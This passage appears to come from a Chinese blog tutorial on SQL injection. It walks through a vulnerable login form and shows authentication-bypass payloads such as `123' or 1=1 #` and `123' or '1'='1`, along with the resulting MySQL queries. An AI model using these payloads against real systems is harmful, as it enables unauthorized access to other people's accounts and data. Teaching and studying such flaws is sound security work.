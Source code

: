 我们先尝试随意输入用户名 123 和密码 123 登录！

![](D:\jacob\code\aikomj.github.io\assets\images\2021\mysql\inject-9.png)

登录被拦截，从错误页面中我们无法获取到任何信息！

点击`view source`查看源代码 ，其中的 SQL 查询代码为：

```sql
select * from users where username='123' and password='123'
```

按照上面示例的思路，我们尝试在用户名中输入 `123' or 1=1 #`, 密码同样输入 `123' or 1=1 #`。

![](\assets\images\2021\mysql\inject-10.png)

登录成功，实际执行的sql是

```sql
select * from users where username='123' or 1=1 #' and password='123' or 1=1 #'
```

按照 Mysql 语法，`#` 后面的内容会被忽略，所以以上语句等同于：

```sql
select * from users where username='123' or 1=1
```

由于判断语句 `or 1=1` 恒成立，所以结果当然返回真，成功登录！

我们再尝试不使用 `#` 屏蔽单引号，在用户名中输入 `123' or '1'='1`, 密码同样输入 `123' or '1'='1`。

![](\assets\images\2021\mysql\inject-11.png)

依然能够成功登录，实际执行的 SQL 语句是：

```sql
select * from users where username='123' or '1'='1' and password='123' or '1'='1'
```

两个 `or` 语句使 `and` 前后两个判断永远恒等于真，所以能够成功登录！
